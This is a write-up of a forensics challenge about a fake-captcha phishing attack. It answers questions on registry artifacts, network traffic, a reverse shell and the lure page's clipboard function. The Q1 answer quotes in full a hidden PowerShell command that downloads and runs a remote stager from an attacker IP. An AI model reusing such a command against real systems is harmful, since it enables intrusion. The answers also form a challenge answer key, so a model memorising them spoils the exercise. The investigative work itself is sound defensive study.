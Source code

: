 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

Q2: At what time in UTC did the malicious payload execute?

A: 2024-09-23 05:07:45

In the Q1 screenshot.

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de

To get the hash i need the file, to get the file we use wireshark to open the pcapng file and search.
One of the only 2 things that i have is the ip, so we use as filter.
Looking through the packets we spot the 2nd thing that we know, the file name.

![](../../Img/Pasted%20image%2020250513153952.png)

After checking that the download name it's the same as the execution name, we search for it in Export HTTP.

![](../../Img/Pasted%20image%2020250513154311.png)

Get the hash.

![](../../Img/Pasted%20image%2020250513154506.png)

Q4: To which port did the reverse shell connect?

A: 6969

We see what the file has.

![](../../Img/Pasted%20image%2020250513155127.png)

Decode it. (I use magic) (https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)'))

![](../../Img/Pasted%20image%2020250513155219.png)

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 403

With the port, we add it to the filter in wireshark and calculate.

![](../../Img/Pasted%20image%2020250513155836.png)

![](../../Img/Pasted%20image%2020250513160049.png)

Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: stageClipboard

I remember that in Q3 i saw clear http traffic, so i went to see it.

![](../../Img/Pasted%20image%2020250513160502.png)

It seems to be the web page.

![](../../Img/Pasted%20image%2020250513160526.png)

Reading through it i found it. (If the pcapng was massive, the http filter would have helped)

![](../../Img/Pasted%20image%2020250513160553.png)
